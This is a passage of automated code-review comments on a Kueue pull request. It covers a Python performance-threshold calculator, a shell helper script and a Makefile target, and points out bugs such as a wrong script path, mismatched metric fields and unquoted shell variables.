+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
+    
+    def _extract_metrics(self, data: dict):
+        """Extract metrics from a single test result"""
+        try:
+            # Extract command wall time
+            if 'flat' in data and 'wallMs' in data['flat']:
+                self.cmd_metrics.values.append(float(data['flat']['wallMs']))
+            
+            # Extract cluster queue metrics (minimum usage percentages)
+            if 'clusterQueueClasses' in data:
+                for cq_name, cq_data in data['clusterQueueClasses'].items():
+                    if 'cpuAverageUsage' in cq_data and 'nominalQuota' in cq_data:
+                        if cq_data['nominalQuota'] > 0:
+                            usage = (cq_data['cpuAverageUsage'] * 100) / cq_data['nominalQuota']
+                            if cq_name not in self.cluster_queue_metrics:
+                                self.cluster_queue_metrics[cq_name] = MetricStats(f"cq.{cq_name}", [])
+                            self.cluster_queue_metrics[cq_name].values.append(usage)
```

  _🗄️ Data Integrity & Integration_ | _🔴 Critical_ | _🏗️ Heavy lift_
  
  <details>
  <summary>🧩 Analysis chain</summary>
  
  🏁 Script executed:
  
  ```shell
  #!/bin/bash
  # Inspect the recorder Summary schema and any committed summary.yaml samples
  fd -t f 'recorder' test | head
  ast-grep run --pattern 'type Summary struct { $$$ }' --lang go .
  rg -nP 'json:"(wallMs|cpuAverageUsage|cpuUsed|nominalQuota|averageTimeToAdmissionMs)"' --type=go -C2
  fd -g 'summary.yaml' . --exec cat -n
  fd -g 'rangespec.yaml' . --exec cat -n
  ```
  
  Repository: kubernetes-sigs/kueue
  
  Length of output: 2448
  
  ---
  
  🏁 Script executed:
  
  ```shell
  #!/bin/bash
  set -u
  
  echo "== files =="
  git ls-files | rg '(^|/)calculate_performance_thresholds\.py$|test/performance/scheduler/checker/checker_test\.go$|test/performance/scheduler/runner/recorder'
  
  echo
  echo "== outline recorder/summary fields =="
  ast-grep outline test/performance/scheduler/runner/recorder/recorder.go --match 'Summary' --match 'CQGroupSummary' --match 'WorkloadsClassSummary' --view expanded
  
  echo
  echo "== relevant recorder.go sections =="
  nl -ba test/performance/scheduler/runner/recorder/recorder.go | sed -n '240,330p'
  
  echo
  echo "== performance test/checker files =="
  fd -t f . test/performance/scheduler -d 3 | sort
  
  echo
  echo "== checker relevant lines if present =="
  if [ -f test/performance/scheduler/checker/checker_test.go ]; then
    nl -ba test/performance/scheduler/checker/checker_test.go | sed -n '1,240p'
  fi
  
  echo
  echo "== calculate_performance_thresholds path =="
  if [ -f hack/testing/calculate_performance_thresholds.py ]; then
    nl -ba hack/testing/calculate_performance_thresholds.py | sed -n '1,190p'
  fi
  
  echo
  echo "== search for relevant metric names =="
  rg -n 'wallMs|cpuAverageUsage|cpuUsed|nominalQuota|summary\.y(a)?ml|CmdStats|clusterQueueClasses|rangespec|averageTimeToAdmissionMs' test hack 2>/dev/null | head -200
  ```
  
  Repository: kubernetes-sigs/kueue
  
  Length of output: 12185
  
  ---
  
  🏁 Script executed:
  
  ```shell
  #!/bin/bash
  set -u
  
  echo "== recorder struct and metrics calculation =="
  awk 'NR>=210 && NR<=330 { printf "%6d  %s\n", NR, $0 }' test/performance/scheduler/runner/recorder/recorder.go
  echo
  awk 'NR>=470 && NR<=520 { printf "%6d  %s\n", NR, $0 }' test/performance/scheduler/runner/recorder/recorder.go
  
  echo
  echo "== checker structs and calculation =="
  awk 'NR>=35 && NR<=95 { printf "%6d  %s\n", NR, $0 }' test/performance/scheduler/checker/checker_test.go
  echo
  awk 'NR>=95 && NR<=190 { printf "%6d  %s\n", NR, $0 }' test/performance/scheduler/checker/checker_test.go
  
  echo
  echo "== compare-performance threshold logic =="
  awk 'NR>=55 && NR<=85 { printf "%6d  %s\n", NR, $0 }' hack/testing/compare-performance.sh
  
  echo
  echo "== calculate_performance_thresholds relevant logic =="
  awk 'NR>=105 && NR<=190 { printf "%6d  %s\n", NR, $0 }' hack/testing/calculate_performance_thresholds.py
  awk 'NR>=160 && NR<=180 { printf "%6d  %s\n", NR, $0 }' hack/testing/calculate_performance_thresholds.py
  
  echo
  echo "== read-only semantic comparison of summary-derived vs checker-derived CQ metrics =="
  python3 - <<'PY'
  # Summarize the relevant Go structs/JSON tags and threshold expressions from source data,
  # without running repository code.
  from pathlib import Path
  import re, json
  
  check = Path('test/performance/scheduler/checker/checker_test.go').read_text()
  rec = Path('test/performance/scheduler/runner/recorder/recorder.go').read_text()
  calc = Path('hack/testing/calculate_performance_thresholds.py').read_text()
  comp = Path('hack/testing/compare-performance.sh').read_text()
  
  print("checker CQ expression:")
  m = re.search(r'clusterQueueClassesMinUsage.*?=\s*([^\n]+)', check, re.S)
  print(m.group(1).strip()) if m else print("not found")
  
  print("recorder CQ json tag fields:", sorted(set(re.findall(r'json:"([A-Za-z0-9_]+)"', Path('test/performance/scheduler/runner/recorder/recorder.go').read_text())) & {'CPUUsed','CPUAverageUsage','NominalQuota'}))
  
  print("calculate wallMs path exists?:", "data['flat']['wallMs']" in calc)
  print("calculate cq path exists?:", "cpuAverageUsage" in calc)
  print("compare scripts mirror flat CQ expression:", ".cpuAverageUsage * 100 / .nominalQuota" in comp)
  
  # Simple structural truth values from static text matching
  cq_json_tag = "CPUAverageUsage int64     `json:\"cpuAverageUsage\"`" in rec
  cmd_json_tag = "type CmdStats struct\\n", re.search(r"type CmdStats struct \{[^}]*json:\"wallMs\".*?\}", comp, re.S)
  
  print("CmdStats json tag in recorder:", "json:\"wallMs\"" in Path('test/performance/scheduler/runner/stats/stats.go').read_text())
  PY
  ```
  
  Repository: kubernetes-sigs/kueue
  
  Length of output: 17895
  
  ---
  
  
  
  </details>
  
  **Don’t derive the thresholds from fields the checker does not use.**
  
  `checker_test.go` checks `summary.yaml` `clusterQueueClasses[*].cpuAverageUsage`, but it asserts `summary.yaml` `clusterQueueClasses[*].cpuUsed * 100 / (nominalQuota * elapsedMs)`. `calculate_performance_thresholds.py` uses the `cpuAverageUsage` formula and can also omit class entries when `cpuAverageUsage` is zero, leaving generated `clusterQueueClassesMinUsage` incomplete while the checker `t.Fatalf("Unexpected class")`. Also, `cmd.maxWallMs` comes from the separate cmd stats file, not `flat.wallMs` in summary.
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/testing/calculate_performance_thresholds.py` around lines 122 - 133,
  Update the threshold extraction logic around the clusterQueueClasses loop to
  derive each class’s usage from cpuUsed * 100 divided by nominalQuota and
  elapsedMs, matching checker_test.go, while retaining entries whose computed
  usage is zero. Populate cluster_queue_metrics for every reported class with
  valid quota data, and stop sourcing cmd.maxWallMs from summary flat.wallMs;
  continue using the separate command statistics source.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:64a9b16b3d1e1fd26a7ad8b8 -->
  
  <!-- This is an auto-generated reply by CodeRabbit -->

- **hack/testing/calculate_performance_thresholds.py:154** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T06:24:36Z
```diff
@@ -0,0 +1,439 @@
+#!/usr/bin/env python3
+"""
+Performance Threshold Calculator for Kueue
+
+Analyzes historical performance test runs and automatically calculates
+appropriate thresholds using statistical analysis (mean + N standard deviations).
+
+Usage:
+    python3 calculate_performance_thresholds.py --artifacts-dir /path/to/artifacts --output rangespec.yaml
+    python3 calculate_performance_thresholds.py --help
+"""
+
+import argparse
+import json
+import math
+import os
+import sys
+import yaml
+from pathlib import Path
+from dataclasses import dataclass, asdict
+from typing import Dict, List, Tuple, Optional
+from statistics import mean, stdev, StatisticsError
+
+@dataclass
+class ThresholdConfig:
+    """Configuration for threshold calculation"""
+    percentile_stddev: float = 6.46  # For 1 in a million (6.46 sigma)
+    cmd_margin: float = 0.20  # 20% margin for command execution time
+    utilization_margin: float = -0.07  # -7% margin for minimum utilization
+    admission_time_margin: float = 0.20  # 20% margin for admission times
+    min_runs_required: int = 5  # Minimum historical runs needed
+    rounding_interval: int = 1000  # Round to nearest 1000ms
+
+@dataclass
+class MetricStats:
+    """Statistics for a metric across multiple runs"""
+    metric_name: str
+    values: List[float]
+    mean: float = 0.0
+    stddev: float = 0.0
+    min_val: float = 0.0
+    max_val: float = 0.0
+    percentile_99: float = 0.0
+    
+    def calculate(self):
+        """Calculate statistics from values"""
+        if not self.values:
+            return
+        
+        self.mean = mean(self.values)
+        self.min_val = min(self.values)
+        self.max_val = max(self.values)
+        
+        if len(self.values) > 1:
+            try:
+                self.stddev = stdev(self.values)
+                # Calculate 99th percentile (mean + 2.326 sigma)
+                self.percentile_99 = self.mean + (2.326 * self.stddev)
+            except StatisticsError:
+                self.stddev = 0.0
+                self.percentile_99 = self.mean
+
+
+class PerformanceThresholdCalculator:
+    """Analyzes performance test results and calculates thresholds"""
+    
+    def __init__(self, config: ThresholdConfig):
+        self.config = config
+        self.cmd_metrics: MetricStats = MetricStats("cmd.maxWallMs", [])
+        self.cluster_queue_metrics: Dict[str, MetricStats] = {}
+        self.workload_class_metrics: Dict[str, MetricStats] = {}
+    
+    def load_test_results(self, artifacts_dir: Path) -> int:
+        """
+        Load test results from artifacts directory.
+        
+        Looks for summary.yaml files in run directories:
+        - artifacts/run-performance-scheduler/summary.yaml
+        - artifacts/run-tas-performance-scheduler/summary.yaml
+        
+        Returns number of runs found
+        """
+        run_count = 0
+        artifacts_dir = Path(artifacts_dir)
+        
+        # Patterns to search for
+        patterns = [
+            "run-performance-scheduler/summary.yaml",
+            "run-performance-scheduler-*/summary.yaml",
+            "run-tas-performance-scheduler/summary.yaml",
+            "run-tas-performance-scheduler-*/summary.yaml",
+        ]
+        
+        summary_files = []
+        for pattern in patterns:
+            summary_files.extend(artifacts_dir.glob(pattern))
+        
+        if not summary_files:
+            print(f"Warning: No summary.yaml files found in {artifacts_dir}")
+            print(f"Searched patterns: {patterns}")
+            return 0
+        
+        print(f"Found {len(summary_files)} test result file(s)")
+        
+        for summary_file in sorted(summary_files):
+            try:
+                with open(summary_file, 'r') as f:
+                    data = yaml.safe_load(f)
+                    if data:
+                        self._extract_metrics(data)
+                        run_count += 1
+                        print(f"  ✓ Loaded {summary_file}")
+            except Exception as e:
+                print(f"  ✗ Error loading {summary_file}: {e}")
+        
+        return run_count
+    
+    def _extract_metrics(self, data: dict):
+        """Extract metrics from a single test result"""
+        try:
+            # Extract command wall time
+            if 'flat' in data and 'wallMs' in data['flat']:
+                self.cmd_metrics.values.append(float(data['flat']['wallMs']))
+            
+            # Extract cluster queue metrics (minimum usage percentages)
+            if 'clusterQueueClasses' in data:
+                for cq_name, cq_data in data['clusterQueueClasses'].items():
+                    if 'cpuAverageUsage' in cq_data and 'nominalQuota' in cq_data:
+                        if cq_data['nominalQuota'] > 0:
+                            usage = (cq_data['cpuAverageUsage'] * 100) / cq_data['nominalQuota']
+                            if cq_name not in self.cluster_queue_metrics:
+                                self.cluster_queue_metrics[cq_name] = MetricStats(f"cq.{cq_name}", [])
+                            self.cluster_queue_metrics[cq_name].values.append(usage)
+            
+            # Extract workload class admission time metrics
+            if 'workloadClasses' in data:
+                for wl_class, wl_data in data['workloadClasses'].items():
+                    if 'averageTimeToAdmissionMs' in wl_data:
+                        if wl_class not in self.workload_class_metrics:
+                            self.workload_class_metrics[wl_class] = MetricStats(f"wl.{wl_class}", [])
+                        self.workload_class_metrics[wl_class].values.append(
+                            float(wl_data['averageTimeToAdmissionMs'])
+                        )
+        except Exception as e:
+            print(f"  Warning: Error extracting metrics: {e}")
+    
+    def calculate_thresholds(self) -> dict:
+        """Calculate thresholds based on collected metrics"""
+        if not self.cmd_metrics.values:
+            raise ValueError("No metrics collected. Check artifacts directory and file format.")
+        
+        if len(self.cmd_metrics.values) < self.config.min_runs_required:
+            print(f"Warning: Only {len(self.cmd_metrics.values)} runs found, "
+                  f"recommend at least {self.config.min_runs_required}")
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _⚡ Quick win_
  
  **`min_runs_required` is advisory only.**
  
  The name and the `--min-runs` flag imply a hard gate, but a single run still produces (and writes) thresholds from a sample of one — `stddev` stays 0 and the threshold is just one noisy observation. Consider erroring out unless an explicit `--force` is passed.
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/testing/calculate_performance_thresholds.py` around lines 152 - 154,
  Make min_runs_required a hard gate in the threshold-generation flow: when
  len(self.cmd_metrics.values) is below self.config.min_runs_required, stop before
  calculating or writing thresholds and report the insufficient run count. Add an
  explicit --force override so threshold generation proceeds only when that flag
  is provided, while preserving the existing behavior for runs meeting the
  minimum.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:cfa34ea807739eaece925386 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **hack/testing/performance-thresholds.sh:11** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T06:24:36Z
```diff
@@ -0,0 +1,133 @@
+#!/bin/bash
+# Performance Threshold Automation Script
+# Automates calculation and update of performance test thresholds
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
+PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
+CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_thresholds.py"
```

  _🎯 Functional Correctness_ | _🔴 Critical_ | _⚡ Quick win_
  
  **Wrong script filename — the `calculate` command can never run.**
  
  The Python file added in this PR is `hack/testing/calculate_performance_thresholds.py`, so the `-f` check on Line 54 always fails and exits 1.
  
  <details>
  <summary>🐛 Fix</summary>
  
  ```diff
  -CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_thresholds.py"
  +CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_performance_thresholds.py"
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
  CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_performance_thresholds.py"
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/testing/performance-thresholds.sh` at line 11, Update the CALC_SCRIPT
  variable in performance-thresholds.sh to reference
  calculate_performance_thresholds.py so the calculate command’s file check
  succeeds and the script can run.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:9b51e6f16a374bc3ba0cb6b8 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->
  
  ✅ Addressed in commit 20ac820

- **hack/testing/performance-thresholds.sh:60** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T06:24:37Z
```diff
@@ -0,0 +1,133 @@
+#!/bin/bash
+# Performance Threshold Automation Script
+# Automates calculation and update of performance test thresholds
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
+PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
+CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_thresholds.py"
+
+# Colors
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m'
+
+print_info() { echo -e "${BLUE}ℹ${NC} $*"; }
+print_success() { echo -e "${GREEN}✓${NC} $*"; }
+print_error() { echo -e "${RED}✗${NC} $*" >&2; }
+
+# Parse arguments
+COMMAND="${1:-help}"
+DRY_RUN="${2:-false}"
+
+case "$COMMAND" in
+  collect)
+    print_info "Collecting performance test data..."
+    read -p "How many times to run tests? (recommended: 5-10) " count
+    
+    for i in $(seq 1 "$count"); do
+      echo ""
+      echo "========================================="
+      echo "Run $i/$count"
+      echo "========================================="
+      make run-performance-scheduler
+      
+      if [ $i -lt $count ]; then
+        mkdir -p artifacts/run-performance-scheduler-backup-$i
+        cp -r artifacts/run-performance-scheduler/* artifacts/run-performance-scheduler-backup-$i/
+        print_success "Backed up run $i"
+      fi
+    done
```

  _🩺 Stability & Availability_ | _🟡 Minor_ | _⚡ Quick win_
  
  **Validate `count` and quote the loop variables.**
  
  Non-numeric or empty input makes `seq` / `[ $i -lt $count ]` fail with a confusing error, and `read` without `-r` mangles backslashes (SC2162, SC2086).
  
  <details>
  <summary>🛡️ Proposed fix</summary>
  
  ```diff
  -    read -p "How many times to run tests? (recommended: 5-10) " count
  +    read -r -p "How many times to run tests? (recommended: 5-10) " count
  +    if ! [[ "$count" =~ ^[1-9][0-9]*$ ]]; then
  +      print_error "Invalid run count: '${count}' (expected a positive integer)"
  +      exit 1
  +    fi
   
       for i in $(seq 1 "$count"); do
  @@
  -      if [ $i -lt $count ]; then
  -        mkdir -p artifacts/run-performance-scheduler-backup-$i
  -        cp -r artifacts/run-performance-scheduler/* artifacts/run-performance-scheduler-backup-$i/
  +      if [ "$i" -lt "$count" ]; then
  +        mkdir -p "artifacts/run-performance-scheduler-backup-${i}"
  +        cp -r artifacts/run-performance-scheduler/* "artifacts/run-performance-scheduler-backup-${i}/"
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
      read -r -p "How many times to run tests? (recommended: 5-10) " count
      if ! [[ "$count" =~ ^[1-9][0-9]*$ ]]; then
        print_error "Invalid run count: '${count}' (expected a positive integer)"
        exit 1
      fi
      
      for i in $(seq 1 "$count"); do
        echo ""
        echo "========================================="
        echo "Run $i/$count"
        echo "========================================="
        make run-performance-scheduler
        
        if [ "$i" -lt "$count" ]; then
          mkdir -p "artifacts/run-performance-scheduler-backup-${i}"
          cp -r artifacts/run-performance-scheduler/* "artifacts/run-performance-scheduler-backup-${i}/"
          print_success "Backed up run $i"
        fi
      done
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 Shellcheck (0.11.0)</summary>
  
  [info] 31-31: read without -r will mangle backslashes.
  
  (SC2162)
  
  ---
  
  [info] 40-40: Double quote to prevent globbing and word splitting.
  
  (SC2086)
  
  ---
  
  [info] 40-40: Double quote to prevent globbing and word splitting.
  
  (SC2086)
  
  ---
  
  [info] 41-41: Double quote to prevent globbing and word splitting.
  
  (SC2086)
  
  ---
  
  [info] 42-42: Double quote to prevent globbing and word splitting.
  
  (SC2086)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/testing/performance-thresholds.sh` around lines 31 - 45, Update the
  count input handling around the read and test-run loop to use read -r, reject
  empty or non-numeric values before invoking seq, and quote loop-variable
  expansions in the numeric comparison. Preserve the existing repeated-run and
  backup behavior for valid positive counts.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:0f1a4bcc5b0f8768e6510a44 -->
  
  _Source: Linters/SAST tools_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **hack/testing/performance-thresholds.sh:144** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T06:24:37Z
```diff
@@ -0,0 +1,133 @@
+#!/bin/bash
+# Performance Threshold Automation Script
+# Automates calculation and update of performance test thresholds
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
+PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
+CALC_SCRIPT="${PROJECT_ROOT}/hack/testing/calculate_thresholds.py"
+
+# Colors
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m'
+
+print_info() { echo -e "${BLUE}ℹ${NC} $*"; }
+print_success() { echo -e "${GREEN}✓${NC} $*"; }
+print_error() { echo -e "${RED}✗${NC} $*" >&2; }
+
+# Parse arguments
+COMMAND="${1:-help}"
+DRY_RUN="${2:-false}"
+
+case "$COMMAND" in
+  collect)
+    print_info "Collecting performance test data..."
+    read -p "How many times to run tests? (recommended: 5-10) " count
+    
+    for i in $(seq 1 "$count"); do
+      echo ""
+      echo "========================================="
+      echo "Run $i/$count"
+      echo "========================================="
+      make run-performance-scheduler
+      
+      if [ $i -lt $count ]; then
+        mkdir -p artifacts/run-performance-scheduler-backup-$i
+        cp -r artifacts/run-performance-scheduler/* artifacts/run-performance-scheduler-backup-$i/
+        print_success "Backed up run $i"
+      fi
+    done
+    
+    print_success "Collected $count performance runs"
+    print_info "To calculate thresholds, run: make update-performance-thresholds"
+    ;;
+    
+  calculate)
+    print_info "Calculating performance thresholds..."
+    
+    if [ ! -f "$CALC_SCRIPT" ]; then
+      print_error "Python script not found: $CALC_SCRIPT"
+      exit 1
+    fi
+    
+    # Install Python dependency if needed
+    if ! python3 -c "import yaml" 2>/dev/null; then
+      print_info "Installing PyYAML..."
+      pip install PyYAML || {
+        print_error "Failed to install PyYAML"
+        exit 1
+      }
+    fi
+    
+    # Run calculation
+    if [ "$DRY_RUN" = "true" ]; then
+      print_info "Running in DRY RUN mode (preview only)..."
+      python3 "$CALC_SCRIPT" \
+        --artifacts-dir ./artifacts \
+        --dry-run
+    else
+      print_info "Calculating and updating thresholds..."
+      python3 "$CALC_SCRIPT" \
+        --artifacts-dir ./artifacts
+      
+      print_success "Thresholds updated successfully"
+      print_info "Review changes: git diff test/performance/scheduler/configs/baseline/rangespec.yaml"
+    fi
+    ;;
+    
+  validate)
+    print_info "Validating performance test metrics..."
+    
+    if [ ! -d "./artifacts" ]; then
+      print_error "No artifacts directory found"
+      exit 1
+    fi
+    
+    if find ./artifacts -name "summary.yaml" | grep -q .; then
+      print_success "Found summary.yaml files:"
+      find ./artifacts -name "summary.yaml" -exec echo "  - {}" \;
+    else
+      print_error "No summary.yaml files found in artifacts"
+      exit 1
+    fi
+    
+    print_info "To calculate thresholds, run: make update-performance-thresholds"
+    ;;
+    
+  help|*)
+    cat << 'EOF'
+
+Performance Threshold Automation
+
+Usage:
+  make update-performance-thresholds collect       # Collect test runs
+  make update-performance-thresholds calculate     # Calculate & apply thresholds
+  make update-performance-thresholds calculate dry # Preview changes (dry-run)
+  make update-performance-thresholds validate      # Validate metrics exist
+  make update-performance-thresholds help          # Show this help
+
+Examples:
+  # Collect 5 test runs
+  ./hack/testing/performance-thresholds.sh collect
+
+  # Preview threshold changes
+  ./hack/testing/performance-thresholds.sh calculate dry
+
+  # Apply threshold changes
+  ./hack/testing/performance-thresholds.sh calculate
+
+  # Validate metrics
+  ./hack/testing/performance-thresholds.sh validate
+
+For detailed documentation, see:
+  ./hack/testing/README-PERFORMANCE-THRESHOLDS.md
```

  _📐 Maintainability & Code Quality_ | _🟡 Minor_ | _⚡ Quick win_
  
  <details>
  <summary>🧩 Analysis chain</summary>
  
  🏁 Script executed:
  
  ```shell
  #!/bin/bash
  fd -i 'README-PERFORMANCE-THRESHOLDS.md'
  fd . hack/testing -t f
  ```
  
  Repository: kubernetes-sigs/kueue
  
  Length of output: 1431
  
  ---
  
  
  
  </details>
  
  **Referenced doc may not exist.**
  
  `./hack/testing/README-PERFORMANCE-THRESHOLDS.md` is not committed, and the current docs-only PR may defer the content elsewhere; either add/rename the referenced documentation or update this help text to avoid pointing users at a missing file.
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/testing/performance-thresholds.sh` around lines 128 - 129, Update the
  documentation reference in the performance-thresholds help text so it points to
  a committed, existing documentation file; if the intended document is
  unavailable, remove or replace the path with the correct established location
  rather than referencing a missing README.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:c8cc0f8449f6a349380c9cce -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **Makefile-test.mk:844** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T06:24:37Z
```diff
@@ -838,3 +838,7 @@ test-e2e-kueueviz: setup-e2e-env ## Run end-to-end tests for kueueviz without ru
 .PHONY: verify-ci-build-times
 verify-ci-build-times: ## Verify that CI build times are below threshold.
 	python3 ./hack/tools/prow-runtimes/prow_runtimes.py --kueue-presubmits --limit 5 --only-success --only-merge-pool --threshold-stat=second_longest --threshold 14m
+
+.PHONY: update-performance-thresholds
+update-performance-thresholds: ## Update performance test thresholds based on artifacts
+	@./hack/testing/performance-thresholds.sh $(ARGS)
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _⚡ Quick win_
  
  **`$(ARGS)` contract doesn't match the documented usage.**
  
  `make update-performance-thresholds collect` treats `collect` as a separate make goal (and the script then falls through to `help`). The working invocation is `make update-performance-thresholds ARGS=collect`. Either fix the help text in `hack/testing/performance-thresholds.sh` (Lines 109-113) or use `MAKECMDGOALS`-free explicit sub-targets.
  
  <details>
  <summary>♻️ Alternative: explicit sub-targets</summary>
  
  ```diff
   .PHONY: update-performance-thresholds
  -update-performance-thresholds: ## Update performance test thresholds based on artifacts
  -	@./hack/testing/performance-thresholds.sh $(ARGS)
  +update-performance-thresholds: ## Update performance test thresholds based on artifacts (ARGS="collect|calculate [dry]|validate|help")
  +	@./hack/testing/performance-thresholds.sh $(ARGS)
  +
  +.PHONY: collect-performance-data
  +collect-performance-data: ## Collect repeated performance runs into artifacts
  +	@./hack/testing/performance-thresholds.sh collect
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
  .PHONY: update-performance-thresholds
  update-performance-thresholds: ## Update performance test thresholds based on artifacts (ARGS="collect|calculate [dry]|validate|help")
  	@./hack/testing/performance-thresholds.sh $(ARGS)
  
  .PHONY: collect-performance-data
  collect-performance-data: ## Collect repeated performance runs into artifacts
  	@./hack/testing/performance-thresholds.sh collect
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
